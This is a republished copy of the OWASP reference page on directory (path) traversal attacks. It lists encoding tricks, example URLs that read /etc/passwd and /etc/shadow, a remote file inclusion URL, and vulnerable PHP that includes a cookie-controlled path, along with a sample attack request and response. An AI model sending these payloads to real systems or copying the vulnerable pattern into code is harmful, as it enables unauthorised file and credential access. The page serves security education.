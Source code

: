 ```yaml
---
title: Directory (Path) Traversal
author: Arsen A. Gutsal
layout: text-and-images
---
```


[Source](https://www.owasp.org/index.php/Path_Traversal "Permalink to Path Traversal - OWASP")

# Directory (Path) Traversal

_This is an **Attack**._


Last revision (mm/dd/yy): **10/6/2015**

## Overview

A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with "dot-dot-slash (../)" sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

This attack is also known as "dot-dot-slash", "directory traversal", "directory climbing" and "backtracking".

## Related Security Activities

### How to Avoid Path Traversal Vulnerabilities

See the [OWASP Guide][2] article on how to [Avoid Path Traversal ][3] Vulnerabilities.

### How to Test for Path Traversal Vulnerabilities

See the [OWASP Testing Guide][4] article on how to [Test for Path Traversal ][5] Vulnerabilities.

## Description

### Request variations

Encoding and double encoding:

    %2e%2e%2f represents ../
        %2e%2e/ represents ../
            ..%2f represents ../
                %2e%2e%5c represents ..
                    %2e%2e represents ..
                        ..%5c represents ..
                            %252e%252e%255c represents ..
                                ..%255c represents .. and so on.

**Percent encoding (aka URL encoding)**

Note that web containers perform one level of decoding on percent encoded values from forms and URLs.

    ..%c0%af represents ../
        ..%c1%9c represents ..

**OS specific**

UNIX

    Root directory:  " / "
        Directory separator: " / "

WINDOWS

    Root directory: "  <partition letter> :  "
        Directory separator: " / " or "  "
            Note that windows allows filenames to be followed by extra .  / characters.

In many operating systems, null bytes %00 can be injected to terminate the filename. For example, sending a parameter like:

    ?file=secret.doc%00.pdf

will result in the Java application seeing a string that ends with ".pdf" and the operating system will see a file that ends in ".doc". Attackers may use this trick to bypass validation routines.

## Examples

### Example 1

The following examples show how the application deals with the resources in use.

     http://some_site.com.br/get-files.jsp?file=report.pdf
          http://some_site.com.br/get-page.php?home=aaa.html
               http://some_site.com.br/some-page.asp?page=index.html

In these examples it's possible to insert a malicious string as the variable parameter to access files located outside the web publish directory.

      http://some_site.com.br/get-files?file=../../../../some dir/some file

      http://some_site.com.br/../../../../some dir/some file

The following URLs show examples of *NIX password file exploitation.

    http://some_site.com.br/../../../../etc/shadow
        http://some_site.com.br/get-files?file=/etc/passwd

Note: In a windows system an attacker can navigate only in a partition that locates web root while in the Linux he can navigate in the whole disk.

### Example 2

It's also possible to include files and scripts located on external website.

     http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php

### Example 3

These examples illustrate a case when an attacker made the server show the CGI source code.

     http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi

### Example 4

This example was extracted from: Wikipedia - Directory Traversal

A typical example of vulnerable application code is:

    <?php
        $template = 'blue.php';
            if ( is_set( $_COOKIE['TEMPLATE'] ) )
                   $template = $_COOKIE['TEMPLATE'];
                       include ( "/home/users/phpguru/templates/" . $template );
                           ?>

An attack against this system could be to send the following HTTP request:

    GET /vulnerable.php HTTP/1.0
        Cookie: TEMPLATE=../../../../../../../../../etc/passwd

Generating a server response such as:

    HTTP/1.0 200 OK
        Content-Type: text/html
            Server: Apache

    root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
        daemon:*:1:1::/tmp:
            phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh

The repeated `../` characters after /home/users/phpguru/templates/ has caused [include()][6] to traverse to the root directory, and then include the UNIX password file [/etc/passwd][7].

UNIX etc/passwd is a common file used to demonstrate **directory traversal**, as it is often used by crackers to try cracking the passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

    http://testsite.com/get.php?f=list
        http://testsite.com/get.cgi?f=2
            http://testsite.com/get.asp?f=test

An attacker can execute this attack like this:

    http://testsite.com/get.php?f=/var/www/html/get.php
        http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
            http://testsite.com/get.asp?f=/etc/passwd

When the web server returns information about errors in a web application, it is much easier for the attacker to guess the correct locations (e.g. path to the file with a source code, which then may be displayed).


